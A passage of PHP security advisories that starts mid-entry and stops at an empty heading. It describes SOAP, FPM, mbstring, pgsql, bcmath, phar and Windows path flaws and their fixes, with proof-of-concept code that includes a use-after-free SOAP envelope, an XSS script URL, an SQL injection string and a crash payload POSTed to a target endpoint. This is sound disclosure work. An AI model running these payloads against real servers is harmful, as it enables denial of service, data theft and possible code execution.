- Affected php/ext-soap: vulnerable < 8.5.6 patched 8.5.6
- Credits: brettgervasoni, iluuu1994, ndossche

ext-soap supports deduplicating objects in the XML graph through `id` and `href`. When traversing the XML graph, ext-soap will remember all plain PHP objects using the hash map `SOAP_GLOBAL(ref_map)`, where the pointer to the libxml2 node acts as a key, and the PHP object as a value. This happens in `soap_add_xml_ref()`.

https://github.com/php/php-src/blob/dcf653339c245e25ea319248d0fc071a9405d688/ext/soap/php_encoding.c#L349-L354

Crucially, the reference count of the PHP object is _not_ increased. Normally this is not a problem, as all objects in the XML graph are stored in the resulting object graph and cannot be freed.

`soap_check_xml_ref()` does the opposite of `soap_add_xml_ref()`; it will check whether some libxml2 node as already been evaluated and stored in `SOAP_GLOBAL(ref_map)`.

https://github.com/php/php-src/blob/dcf653339c245e25ea319248d0fc071a9405d688/ext/soap/php_encoding.c#L331-L347

The Apache map offers a mechanism to free objects between these two points by overwriting existing map entries.

```php
class Handler {
    public function test($map, $stale) {
        global $result;
        $result = $stale;
    }
}

$envelope = <<<'XML'
<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope
    xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:xsd="http://www.w3.org/2001/XMLSchema">

    <soapenv:Body>
        <test>
            <map xsi:type="apache:Map" xmlns:apache="http://xml.apache.org/xml-soap">
                <item>
                    <key>somekey</key>
                    <value id="stale"><object>Stale</object></value>
                </item>
                <item>
                    <key>somekey</key>
                    <value></value>
                </item>
            </map>
            <stale href="#stale"/>
        </test>
    </soapenv:Body>
</soapenv:Envelope>
XML;

$s = new SoapServer(null, ['uri' => 'urn:a']);
$s->setClass(Handler::class);
$s->handle($envelope);
var_dump($result);
```

This example will:

- evaluate the `map` node
- evaluate the `Stale` object, which includes calling calling `soap_add_xml_ref()` to remember it in `SOAP_GLOBAL(ref_map)`
- add the resulting object to a temporary map, which will be the result of the Apache map node
- overwrite the object immediately with `NULL` for the `<item>` with an empty `<value>`, releasing the `Stale` object only strongly referenced by the temporary map, with the reference in `SOAP_GLOBAL(ref_map)` becoming stale
- have `<stale href="#stale"/>` refer to this stale pointer within `SOAP_GLOBAL(ref_map)`, reusing the freed memory

After this code, `$result` will refer to the stale memory where `Stale` was previously allocated. The attacker has high control over this memory segment by subsequently allocating plain strings, leading to Remote Code Execution.

The solution is straight forward, namely increase the reference count before adding objects to `SOAP_GLOBAL(ref_map)`, and configure a `ZVAL_PTR_DTOR` deallocator to release the objects when the procedure is done.

## GHSA-7qg2-v9fj-4mwv — XSS within PHP-FPM status endpoint
- CVE: CVE-2026-6735 | Severity: medium | CVSS: None `None` | CWE: CWE-79
- Published: 2026-05-07T12:56:51Z | URL: https://github.com/php/php-src/security/advisories/GHSA-7qg2-v9fj-4mwv
- Affected php/PHP-FPM: vulnerable < 8.2.31 patched 8.2.31
- Affected php/PHP-FPM: vulnerable < 8.3.31 patched 8.3.31
- Affected php/PHP-FPM: vulnerable < 8.4.21 patched 8.4.21
- Affected php/PHP-FPM: vulnerable < 8.5.6 patched 8.5.6
- Credits: llrolly, bukka

Improper sanitization of the request URI within the PHP-FPM status page allows an attacker to execute arbitrary JavaScript code (XSS) on the victims machine, possibly stealing cookies on insufficiently hardened systems, or stealing other sensitive data such as the information from the status page itself. An attacker does not require authentication or access to the `/status` endpoint in order to trigger XSS, but may simply visit a URI embedding the malicious code.

1. Navigate to `example.com/<script>alert()</script>`
2. Navigate to `example.com/status?full&html`
3. Observe the JavaScript pop-up.

The same is possible for the XML endpoint, possibly embedding malicious XML nodes into the status report.

1. Navigate to `example.com/<`
2. Navigate to `example.com/status?full&xml`
3. Observe the XML parsing error.

## GHSA-wm6j-2649-pv75 — Null pointer dereference in php_mb_check_encoding() via mb_ereg_search_init()
- CVE: CVE-2026-7259 | Severity: low | CVSS: None `None` | CWE: CWE-476
- Published: 2026-05-07T12:57:13Z | URL: https://github.com/php/php-src/security/advisories/GHSA-wm6j-2649-pv75
- Affected php/ext-mbstring: vulnerable < 8.5.6 patched 8.5.6
- Affected php/ext-mbstring: vulnerable < 8.4.21 patched 8.4.21
- Affected php/ext-mbstring: vulnerable < 8.3.31 patched 8.3.31
- Affected php/ext-mbstring: vulnerable < 8.2.31 patched 8.2.31
- Credits: vi3tL0u1s, iluuu1994

The following PHP code triggers a segmentation fault due to a NULL pointer dereference:

```php
<?php
mb_regex_encoding('iso-8859-11');
$test_str = 'x';

if (mb_ereg_search_init($test_str)) {
    $val = mb_ereg_search_pos("x");
    var_dump($val);
} else {
    var_dump(false);
}
```

The crash occurs due to a mismatch between Oniguruma and mbfl encoding support:

1. **Oniguruma** (the regex library) supports `iso-8859-11` (Thai encoding)
2. **mbfl** (mbstring's internal encoding library) does **NOT** support `iso-8859-11`

https://github.com/php/php-src/blob/0d9ff00394d9447992bb66ccb1cef3edf70576bd/ext/mbstring/php_mbregex.c#L404-L413

When `mb_regex_encoding('iso-8859-11')` is called:
- `php_mb_regex_set_mbctype()` validates the encoding against Oniguruma → **succeeds**
- `mbfl_name2encoding('iso-8859-11')` is called → returns **NULL**
- `MBREX(current_mbctype_mbfl_encoding)` is set to **NULL**

Later, when `mb_ereg_search_init()` calls `php_mb_check_encoding()`:
- `php_mb_regex_get_mbctype_encoding()` returns NULL
- `php_mb_check_encoding()` dereferences the `NULL` pointer → **SEGV**

This vulnerability allows a denial of service (DoS). An attacker can reliably crash a PHP process when user-controlled input influences the encoding passed to `mb_regex_encoding()` and the application subsequently uses mbregex search APIs.

Enumeration of all Oniguruma-supported encodings vs mbfl support:

| Encoding / aliases | Oniguruma | mbfl | Status |
|--------------------|-----------|------|--------|
| iso-8859-1 … iso-8859-10 | ✓ | ✓ | Safe |
| iso-8859-11, ISO8859-11 | ✓ | ✗ | **CRASH** |
| iso-8859-13 … iso-8859-16 | ✓ | ✓ | Safe |
| EUC-JP aliases: UJIS | ✓ | ✗ | **CRASH** |
| EUC-CN aliases: GB-2312 | ✓ | ✗ | **CRASH** |
| KOI8 aliases: KOI-8R | ✓ | ✗ | **CRASH** |
| ASCII aliases: US_ASCII, ISO646 | ✓ | ✗ | **CRASH** |
| KOI8 (no suffix) | ✓ | ✗ | Safe (rejected by mb_regex_encoding()) |
| All other encodings | ✓ | ✓ | Safe |

### Credits
Viet Hoang Luu - The University of Melbourne
Amirmohammad Pasdar - The University of Melbourne
Wachiraphan Charoenwet - The University of Melbourne
Shaanan Cohney - The University of Melbourne
Toby Murray - The University of Melbourne
Van-Thuan Pham - The University of Melbourne


## GHSA-m33r-qmcv-p97q — SoapServer session-persisted object use-after-free via SOAP header fault
- CVE: CVE-2026-7261 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2026-05-07T12:57:35Z | URL: https://github.com/php/php-src/security/advisories/GHSA-m33r-qmcv-p97q
- Affected php/ext-soap: vulnerable < 8.2.31 patched 8.2.31
- Affected php/ext-soap: vulnerable < 8.3.31 patched 8.3.31
- Affected php/ext-soap: vulnerable < 8.4.21 patched 8.4.21
- Affected php/ext-soap: vulnerable < 8.5.6 patched 8.5.6
- Credits: iliaal, iluuu1994

`SOAP_PERSISTENCE_SESSION` allows to persist the SOAP handler object between requests using the session storage. Normally the object is immediately released after `SoapServer::handle()`, unless this setting is specified. This differentiation happens with the `service->soap_class.persistence != SOAP_PERSISTENCE_SESSION` check. `soap.c` fails to account for this flag in two places: 

https://github.com/php/php-src/blob/0d9ff00394d9447992bb66ccb1cef3edf70576bd/ext/soap/soap.c#L1595

https://github.com/php/php-src/blob/0d9ff00394d9447992bb66ccb1cef3edf70576bd/ext/soap/soap.c#L1600

Both of them are failure cases when a handler function for a header node either returned `false` or threw an exception. When the session is written, the freed object will be read and written to the session storage, resulting in a use-after-free. Normally, a SOAP server will only handle one SOAP request per PHP request, so it's unlikely that the attacker will be able to control the freed memory segment, though it is not impossible.

The following example demonstrates the use-after-free.

```php
class SoapSrv {
    public function return()  {
        return new SoapFault('Server', 'denied');
    }
    public function hello() {
        return 'ok';
    }
}

session_start();

$srv = new SoapServer(null, ['uri' => 'urn:a']);
$srv->setClass('SoapSrv');
$srv->setPersistence(SOAP_PERSISTENCE_SESSION);

$srv->handle(<<<XML
<?xml version="1.0"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:a="urn:a">
  <soap:Header>
    <a:return/>
  </soap:Header>
  <soap:Body>
    <a:hello/>
  </soap:Body>
</soap:Envelope>
XML);
```

## GHSA-hmxp-6pc4-f3vv — NULL pointer dereference in SOAP apache:Map decoder with missing <value>
- CVE: CVE-2026-7262 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2026-05-07T12:57:55Z | URL: https://github.com/php/php-src/security/advisories/GHSA-hmxp-6pc4-f3vv
- Affected php/ext-soap: vulnerable < 8.2.31 patched 8.2.31
- Affected php/ext-soap: vulnerable < 8.3.31 patched 8.3.31
- Affected php/ext-soap: vulnerable < 8.4.21 patched 8.4.21
- Affected php/ext-soap: vulnerable < 8.5.6 patched 8.5.6
- Credits: iliaal, iluuu1994

`to_zval_map()` in `ext/soap/php_encoding.c` decodes `apache:Map` nodes. The `<key>` branch correctly guards against missing keys, but the `<value>` branch rechecks `xmlKey` instead of `xmlValue`:

https://github.com/php/php-src/blob/0d9ff00394d9447992bb66ccb1cef3edf70576bd/ext/soap/php_encoding.c#L2780-L2788

In addition, `master_to_zval_int()` accesses `data->properties` without a `NULL` check, where `data` corresponds to the missing `<value>` node. This branch is reachable when `SOAP_GLOBAL(typemap)` is set, i.e. when the SOAP server has a typemap configured. By embedding an `apache:Map` node with a missing `<value>` node into the request, the process will segfault with a `NULL` pointer dereference violation. Under the described circumstances, DoS becomes trivial with the following example:

```php
$request = <<<XML
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:xsd="http://www.w3.org/2001/XMLSchema"
    xmlns:apache="http://xml.apache.org/xml-soap">
  <soap:Body>
    <test>
      <map xsi:type="apache:Map">
        <item><key>foo</key></item>
      </map>
    </test>
  </soap:Body>
</soap:Envelope>
XML;

$server = new SoapServer(null, [
    'uri' => 'urn:test',
    'typemap' => [['type_name' => 'anything']],
]);
$server->addFunction('test');
function test($m) {}
$server->handle($request);
```

## GHSA-7jrw-539f-x6vr — ext/openssl: Memory corruption (zend_mm_heap corrupted) in openssl_encrypt with AES-WRAP-PAD
- CVE: CVE-2026-14355 | Severity: medium | CVSS: 4.8 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:L` | CWE: 
- Published: 2026-07-02T16:56:26Z | URL: https://github.com/php/php-src/security/advisories/GHSA-7jrw-539f-x6vr
- Affected /: vulnerable < 8.2.32 patched 8.2.32
- Affected /: vulnerable < 8.3.32 patched 8.3.32
- Affected /: vulnerable < 8.4.23 patched 8.4.23
- Affected php/: vulnerable < 8.5.8 patched 8.5.8

### Summary
Usate of AES-WRAP-PAD can result in memory corruption and abort of application. 

### Details

The output buffer for the AES key-wrap-with-padding operation is sized from the plaintext length without accounting for RFC 5649 expansion. Key-wrap-with-pad rounds the plaintext up to the next 8-byte boundary and prepends an 8-byte AIV, so ciphertext length is roundup(len, 8) + 8, not a function of the raw input length. The zend_string PHP allocates is therefore too small for what OpenSSL's EVP_EncryptUpdate/EVP_EncryptFinal writes.

OpenSSL writes the full wrapped output past the end of the undersized heap allocation, corrupting adjacent Zend MM heap metadata. This surfaces as the zend_mm_heap corrupted abort — the allocator detecting corrupted bookkeeping on a later operation, not at the moment of the overflow.

Further details in https://github.com/php/php-src/issues/22186 

### Impact

If the attacker is able to find implementation using this rarely used algorithm, it can potentially abort the application and possibly cause DoS for the application.

## GHSA-mhmq-mmqj-2v39 — Failure to setup TLS with a remote server can result in a remote DoS
- CVE: CVE-2026-12184 | Severity: high | CVSS: None `None` | CWE: 
- Published: 2026-07-02T17:01:28Z | URL: https://github.com/php/php-src/security/advisories/GHSA-mhmq-mmqj-2v39
- Affected /: vulnerable < 8.3.32 patched 8.3.32
- Affected /: vulnerable < 8.4.21 patched 8.4.21
- Affected /: vulnerable < 8.5.6 patched 8.5.6
- Credits: ndossche

### Summary

In `php_stream_url_wrap_http_ex`, when TLS crypto setup fails (via `php_stream_xport_crypto_setup` or `php_stream_xport_crypto_enable`), the stream is closed and reset to `NULL`.
However, the subsequent peer name cleanup block unconditionally tries to reset the peer name.
This is triggerable via a failure to validate the peer name or an expired certificate.

As demonstrated by https://github.com/php/php-src/issues/21468 this is triggerable without requiring specially-crafted code, and with a remote server.

### Details

Patch available via https://github.com/php/php-src/pull/21031

### Impact

The impact is a remotely-triggerable DoS bringing the entire fpm process down with all its workers.

### Additional Information

This was first discovered by a hybrid static-dynamic analyzer I'm developing.

## GHSA-7qpv-r5mr-78m4 — SQL injection in ext-pgsql via E'...' backslash breakout
- CVE: CVE-2026-17543 | Severity: high | CVSS: None `None` | CWE: CWE-89
- Published: 2026-07-30T11:02:39Z | URL: https://github.com/php/php-src/security/advisories/GHSA-7qpv-r5mr-78m4
- Affected php/ext-pgsql: vulnerable <8.2.33 patched 8.2.33
- Affected php/ext-pgsql: vulnerable <8.3.33 patched 8.3.33
- Affected php/ext-pgsql: vulnerable <8.4.24 patched 8.4.24
- Affected php/ext-pgsql: vulnerable <8.5.9 patched 8.5.9
- Credits: ExPatch-LLC, alexandre-daubois, iluuu1994, mbeccati

`php_pgsql_convert()` is used to convert and escape user-provided parameters in `pg_insert()`, `pg_update()`, `pg_select()`, and `pg_delete()`. It does so using `PQescapeStringConn()` and then wraps the result in an escape string constant, `E'...'` (via `php_pgsql_add_quotes()`).

https://github.com/php/php-src/blob/cbc0489126a7682796aad1e5fb4e51de74af162c/ext/pgsql/pgsql.c#L4751-L4757

With `standard_conforming_strings = on` (the default since PostgreSQL 9.1), `PQescapeStringConn()` does not correctly escape values for the escape string constant `E'...'`, as it does not escape `\` under this configuration. When `PQescapeStringConn()` escapes `'` as `''`, an attacker can trivially terminate the string by escaping the first single quote.

```php
$result = pg_select($db, 'user', ['name' => "zzz\\' OR 1=1 --"]);
// SELECT * FROM "user" WHERE "name"='zzz\'' OR 1=1 --';
var_dump($result); // returned all rows
```

Note that the doubled `\\` is a PHP escape sequence and that the `\` appears only once in the parameter. Also note that `pg_select()` escapes the `'` by doubling it but does not escape the `\`. Consequently, the first of the two `'` characters is escaped (meaning that it represents a literal `'`), while the second terminates the string. Everything after that is interpreted as part of the query.

The solution changes `php_pgsql_convert()` to wrap parameters in non-escaping string constants instead.

## GHSA-x692-q9x7-8c3f — Out-of-bounds write in bccomp() via crafted operand and scale
- CVE: CVE-2026-17544 | Severity: high | CVSS: None `None` | CWE: CWE-121, CWE-787
- Published: 2026-07-30T11:03:07Z | URL: https://github.com/php/php-src/security/advisories/GHSA-x692-q9x7-8c3f
- Affected php/ext-bcmath: vulnerable <8.4.24 patched 8.4.24
- Affected php/ext-bcmath: vulnerable <8.5.9 patched 8.5.9
- Credits: recepasan, iluuu1994

A call to `bccomp()` with attacker-supplied inputs can lead to an out-of-bounds write to either stack or heap memory. The bug occurs in `bc_str2num()` when the scale truncates a number whose trailing zeros are subsequently trimmed.

https://github.com/php/php-src/blob/a480965c90b4f4948f211c8b139788371e031838/ext/bcmath/libbcmath/src/str2num.c#L169-L185

`str_scale` later determines the number of digits after the decimal point in the resulting string.

https://github.com/php/php-src/blob/a480965c90b4f4948f211c8b139788371e031838/ext/bcmath/libbcmath/src/str2num.c#L203

The string is later populated using `bc_copy_and_toggle_bcd(nptr, fractional_ptr, fractional_end)`.

https://github.com/php/php-src/blob/a480965c90b4f4948f211c8b139788371e031838/ext/bcmath/libbcmath/src/str2num.c#L213

Note that we have shortened the allocated string (`str_scale -= fractional_end - fractional_new_end;`) but have not adjusted `fractional_end` itself. Consequently, `bc_copy_and_toggle_bcd(nptr, fractional_ptr, fractional_end)` will copy the original, untruncated string into a buffer that is too small, leading to an out-of-bounds write.

BCMath uses a small stack-allocated arena for numbers before falling back to heap allocation, enabling both stack and heap corruption, depending on where the buffer is allocated.

The patch adds `fractional_end = fractional_new_end;` after the zero truncation.


## GHSA-vc5h-9ppw-p5f3 — Stack overflow in phar with circular symlinks
- CVE: CVE-2026-7260 | Severity: medium | CVSS: 5.5 `CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H` | CWE: CWE-400, CWE-674
- Published: 2026-07-30T11:03:15Z | URL: https://github.com/php/php-src/security/advisories/GHSA-vc5h-9ppw-p5f3
- Affected php/ext-phar: vulnerable <8.2.33 patched 8.2.33
- Affected php/ext-phar: vulnerable <8.3.33 patched 8.3.33
- Affected php/ext-phar: vulnerable <8.4.24 patched 8.4.24
- Affected php/ext-phar: vulnerable <8.5.9 patched 8.5.9
- Credits: calvinytt, 34selen, TristanInSec

`phar_get_link_source()` in `ext/phar/util.c` recursively follows symbolic links in phar archives without any depth limit or cycle detection. A crafted tar-based phar archive containing circular symlinks causes unbounded recursion, exhausting the C stack and crashing the PHP process.

https://github.com/php/php-src/blob/cbc0489126a7682796aad1e5fb4e51de74af162c/ext/phar/util.c#L60-L82

```bash
python3 -c "
import tarfile
with tarfile.open('circular_symlinks.tar', 'w') as tar:
    a = tarfile.TarInfo(name='file_a'); a.type = tarfile.SYMTYPE; a.linkname = 'file_b'; tar.addfile(a)
    b = tarfile.TarInfo(name='file_b'); b.type = tarfile.SYMTYPE; b.linkname = 'file_a'; tar.addfile(b)
"

php -r '
$p = new PharData("circular_symlinks.tar");
$p["file_a"]->getContent();
'
# Expected: Segmentation fault (stack overflow)
```

## GHSA-9f67-6fw4-hpfp — PHP on Windows: Reserved Device Names Are Not Rejected Before File/Stream I/O which can cause DoS
- CVE: CVE-2026-17545 | Severity: medium | CVSS: None `None` | CWE: CWE-67
- Published: 2026-09-24T10:06:19Z | URL: https://github.com/php/php-src/security/advisories/GHSA-9f67-6fw4-hpfp
- Affected other/php-src: vulnerable <8.2.34 patched 8.2.34
- Affected other/php-src: vulnerable <8.3.35 patched 8.3.35
- Affected other/php-src: vulnerable <8.4.26 patched 8.4.26
- Affected other/php-src: vulnerable <8.5.11 patched 8.5.11
- Credits: crisprss, OSTIF-Derek

### Summary

On Windows, PHP's filesystem and stream APIs do not reject reserved device names such as `CON`, `PRN`, `AUX`, `NUL`, `COM1` to `COM9`, `LPT1` to `LPT9`, `CONIN$` and `CONOUT$` when they appear as a component of a path. An attacker-controlled filename therefore reaches `CreateFileW()` and opens a device instead of the regular file the application expected, which can block or hang the request and exhaust worker processes.

### Details

Paths from application code flow through the stream wrapper layer into the Windows I/O layer. `file_get_contents()` opens the requested path via `php_stream_open_wrapper_ex()`, and `move_uploaded_file()` reaches `VCWD_RENAME()` and `php_copy_file_ex()`, so paths built from user-controlled upload filenames arrive at the same place.

The Windows path validation macro checks only for trailing spaces and certain trailing dots:

https://github.com/php/php-src/blob/php-8.5.10/win32/ioutil.h#L156-L169

There is no check for reserved device names, and `php_win32_ioutil_open_w()` passes the path straight to `CreateFileW()`:

https://github.com/php/php-src/blob/php-8.5.10/win32/ioutil.c#L205

That device handles can result from ordinary file opening is visible further on, where a handle whose `GetFileType()` is `FILE_TYPE_CHAR` is marked as `S_IFCHR` in `win32/ioutil.c` and simply flagged as non-seekable in `main/streams/plain_wrapper.c`, rather than being rejected.

The fix adds `php_win32_ioutil_path_kind_w()` and `php_win32_ioutil_path_kind_a()`, which classify a path as ordinary, a bare device name, or a path containing a reserved component. Reserved components are rejected with `ERROR_INVALID_NAME` before any I/O, while bare device names such as `NUL` and `NUL:` keep working for backwards compatibility, and DOS device paths (`\\.\`, `\\?\` and `\??\`) are left alone because Windows does not map device names inside them. Variants such as `NUL.txt`, `aux:stream` and `NUL ` are resolved through `RtlIsDosDeviceName_U` so that PHP follows the behaviour of the Windows version it runs on.

### PoC

```php
<?php
$base = 'C:\\temp\\php-poc';
$file = $_GET['file'] ?? 'test.txt';
$path = $base . DIRECTORY_SEPARATOR . $file;

echo "path = " . $path . PHP_EOL;
echo file_get_contents($path);
```

Requesting the script with `?file=CON`, `?file=CONIN$` or `?file=NUL.txt` makes PHP open the corresponding device rather than failing on a missing file. `CONIN$` blocks waiting for console input, which holds the request open.

The regression test is `ext/standard/tests/file/ghsa-9f67-6fw4-hpfp-win32.phpt`.

### Impact

A PHP application on Windows that builds a path from user input, such as a download endpoint or an upload destination taken from the client-supplied filename, can be made to operate on a device instead of a file. Depending on the device and the operation this blocks or hangs the request, produces unexpected read and write behaviour, or returns errors from the native API. Under concurrency, repeated requests to a blocking device exhaust the worker pool and deny service.

Only Windows deployments are affected. Reserved names are a Windows filesystem concept, and paths like `CON.txt` are devices there rather than ordinary filenames, which is why application-level path joining and normalisation does not catch them. The same class of issue has required fixes in other language ecosystems.


## GHSA-j3wh-g957-2m85 — Phar TAR phar_tar_number() Integer Overflow - Archive Entry Injection
- CVE: CVE-2026-6103 | Severity: medium | CVSS: 4.0 `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N` | CWE: 
- Published: 2026-09-24T10:06:27Z | URL: https://github.com/php/php-src/security/advisories/GHSA-j3wh-g957-2m85
- Affected php/ext-phar: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-phar: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-phar: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-phar: vulnerable <8.5.11 patched 8.5.11
- Credits: arnoldasr, Oblivionsage, OSTIF-Derek

### Summary

`phar_tar_number()` parses the octal size field of a TAR header into a `uint32_t` with no overflow check. The field is 11 octal digits wide and holds values up to `0x1FFFFFFFF`, so a size above `0xFFFFFFFF` silently wraps. The parser then skips the wrong number of data blocks and interprets attacker-controlled file content as the next TAR header, which lets a crafted archive inject entries that `PharData` reports and extracts as if they were genuine.

### Details

The parser accumulates octal digits without bounding the result:

https://github.com/php/php-src/blob/php-8.5.10/ext/phar/tar.c#L23-L38

| Octal field | True value | `uint32_t` result | Effect |
|---|---|---|---|
| `37777777777` | 0xFFFFFFFF | 4294967295 | largest value that does not wrap |
| `40000000000` | 0x100000000 | 0 | size wraps to 0 |
| `40000000001` | 0x100000001 | 1 | size wraps to 1 |
| `40000001000` | 0x100000200 | 512 | size wraps to 512 |

When the size wraps to 0 the parser reads the size at line 275, rounds it up to a block boundary at line 585 where `(0 + 511) & ~511` stays 0, then skips the data because the `size > 0` condition at line 587 is false. The next 512 bytes read are the entry's own data, parsed as a TAR header.

The GNU long filename path has an overflow check, but it only rejects `UINT_MAX` and `0`:

https://github.com/php/php-src/blob/php-8.5.10/ext/phar/tar.c#L368

A size that wraps to 1 passes it and allocates a one-byte buffer for what the header declares as a filename of more than 4 GB.

GNU `tar` rejects the same archive with `not stopped at a record boundary`, while `PharData` accepts it and exposes the injected entries.

The fix replaces the size parse with `phar_tar_size()`, which accumulates into a `uint64_t`, rejects the GNU base-256 encoding, requires the whole field to be consumed, and refuses any value above `UINT32_MAX - 511`. It also introduces `phar_tar_type_has_data()` so the data blocks of every entry type that carries data are skipped, and rejects the unsupported GNU long link record outright.

### PoC

1. Build a TAR archive with a legitimate entry followed by an entry whose size field is `40000000000`.
2. Place a valid TAR header in the data block immediately after that entry.
3. Open the archive with `new PharData($file)`.

The injected header is parsed as a real entry with an attacker-chosen name, size and content, and appears in the manifest alongside the legitimate entries. Reading through `phar://` and extracting with `extractTo()` both return the injected version. Giving the injected entry the same name as a legitimate one replaces the original in the manifest, and a single overflow entry can introduce any number of further entries.

The regression tests `ext/phar/tests/tar/GHSA-j3wh-g957-2m85-size.phpt`, `-longlink.phpt` and `-typeflag.phpt` cover the wrapped size, the long filename check and the entry types that carry data.

### Impact

An application that opens an untrusted TAR archive with `PharData` or the `phar://` stream wrapper sees a set of entries that differs from what the archive actually contains, and `extractTo()` writes the injected entries to disk. Tooling that validates an archive before extracting it can be made to inspect one set of files and extract another.

Composer's `TarDownloader` uses `new PharData($file)` followed by `extractTo()` for every `.tar.gz` package, so a crafted package can place files into `vendor/` that are not present in the archive as any other tool reads it.


## GHSA-cj93-vc83-wgqv — Integer overflow to buffer overflow in soap HTTP parsing
- CVE: CVE-2025-14181 | Severity: medium | CVSS: 6.5 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:L/A:H` | CWE: 
- Published: 2026-09-24T10:06:31Z | URL: https://github.com/php/php-src/security/advisories/GHSA-cj93-vc83-wgqv
- Affected php/ext-soap: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-soap: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-soap: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-soap: vulnerable <8.5.11 patched 8.5.11
- Credits: ndossche

### Summary

The SOAP HTTP client guards its response buffer growth with a check that relies on signed integer overflow, which is undefined behaviour and is not guaranteed to trigger. When the check is optimised away, a malicious SOAP server can make the client allocate a buffer far smaller than the data it then writes into it, producing a heap buffer overflow.

### Details

`get_http_body()` in `ext/soap/php_http.c` accumulates chunked response data and checks for overflow like this:

https://github.com/php/php-src/blob/php-8.5.10/ext/soap/php_http.c#L1494-L1499

`http_buf_size` and `buf_size` are both `int`, so `http_buf_size + buf_size + 1 < 0` can only become true through signed integer overflow. That is undefined behaviour, and a compiler is free to assume it never happens and remove the branch. This was tested with Clang 20.1.7 and GCC 15.1.1, where the check did not trigger; other compilers and versions may behave differently, so the check cannot be relied upon.

Once the check is gone, `zend_string_realloc()` is reached with a length such as `18446744073709551614`. Adding the `zend_string` header overflows again, far too few bytes are allocated, and the following read loop writes past the end of the allocation.

The fix switches the accumulated size to `size_t`, bounds each growth step against `ZSTR_MAX_LEN` before allocating, and uses `zend_string_safe_realloc()` so the multiplication and addition are checked.

### PoC

A SOAP server that responds with `Transfer-Encoding: chunked` and declares a chunk size of `0x7fffffff`, followed by a second chunk header of the same size, drives the buffer size past `INT_MAX` on the reallocation for the second chunk. The regression test `ext/soap/tests/bugs/GHSA-cj93-vc83-wgqv.phpt` reproduces this against a local server. It needs several gigabytes of free memory, since the overflow is only reached after a genuinely large buffer has been built.

### Impact

A malicious SOAP server, or a man-in-the-middle on a plaintext SOAP connection, can overflow a heap buffer in a `SoapClient` that talks to it. The consequences depend on the heap layout and the compiler used to build PHP, ranging from a crash to memory corruption.

The bug only manifests on builds where the compiler discards the undefined signed-overflow check, and it requires the client to accept a multi-gigabyte response. Setting a low `memory_limit` causes an out-of-memory error before the overflow is reached and serves as a workaround.


## GHSA-rgrp-mwpx-f6rm — SOAP: Unbounded Recursion in Server-Side cleanup_xml_node
- CVE: CVE-2026-91765 | Severity: high | CVSS: 7.5 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` | CWE: 
- Published: 2026-09-24T10:06:35Z | URL: https://github.com/php/php-src/security/advisories/GHSA-rgrp-mwpx-f6rm
- Affected php/ext-soap: vulnerable <8.2.34 patched 8.2.34
- Affected php/ext-soap: vulnerable <8.3.35 patched 8.3.35
- Affected php/ext-soap: vulnerable <8.4.26 patched 8.4.26
- Affected php/ext-soap: vulnerable <8.5.11 patched 8.5.11
- Credits: ExPatch-LLC, alexandre-daubois

### Summary

`cleanup_xml_node()` in the SOAP XML parser recurses once per XML nesting level with no depth limit. An unauthenticated attacker can post a SOAP request containing tens of thousands of nested elements to any `SoapServer` endpoint, exhaust the stack and crash the process. The same unbounded recursion exists in the SOAP value decoder and in the WSDL node search helper.

### Details

`cleanup_xml_node()` walks the parsed document to remove blank text and comment nodes and descends into every child without a depth counter:

https://github.com/php/php-src/blob/php-8.5.10/ext/soap/php_xml.c#L39-L67

It runs after libxml2 has finished parsing, on the path taken by `SoapServer::handle()`:

```
SoapServer::handle()
  -> soap_xmlParseFile("php://input")
    -> xmlCreateFileParserCtxt()
    -> xmlParseDocument()
    -> cleanup_xml_node(ctxt->myDoc->children)
```

libxml2 applies its own limits while parsing, but this traversal is PHP's own post-parse step and had none. `soap_xmlParseMemory()` has the call commented out, so the reachable path is the `php://input` one used by the server.

Two further functions recurse on the same attacker-controlled structure: `master_to_zval_int()` in `ext/soap/php_encoding.c`, which follows `href` references and could also be driven into a cycle, and `get_node_with_attribute_recursive_ex()` in `ext/soap/php_xml.c`, which searches WSDL documents.

The fix introduces `SOAP_MAX_XML_DEPTH` (2048) and `SOAP_MAX_DECODE_DEPTH`, rewrites `cleanup_xml_node()` and the WSDL search as iterative traversals, and tracks a decode depth in the SOAP globals so `href` chains and cycles are rejected rather than followed indefinitely. Documents nested deeper than the limit are refused before traversal.

### PoC

```php
<?php
$depth = 50000;
$body = '<?xml version="1.0"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"><SOAP-ENV:Body>'
      . str_repeat('<a>', $depth) . str_repeat('</a>', $depth)
      . '</SOAP-ENV:Body></SOAP-ENV:Envelope>';

$ctx = stream_context_create(['http' => [
    'method' => 'POST',
    'header' => "Content-Type: text/xml\r\n",
    'content' => $body,
]]);
file_get_contents('http://target/soap-endpoint.php', false, $ctx);
```

The target crashes with SIGSEGV inside `cleanup_xml_node()`. The payload is small on the wire, since 50,000 nested tags compress to a few kilobytes. No WSDL interaction, authentication or special configuration is required.

The regression tests `ext/soap/tests/GHSA-rgrp-mwpx-f6rm.phpt`, `GHSA-rgrp-mwpx-f6rm-href-chain.phpt` and `GHSA-rgrp-mwpx-f6rm-href-cycle.phpt` cover the deep document, the `href` chain and the `href` cycle.

### Impact

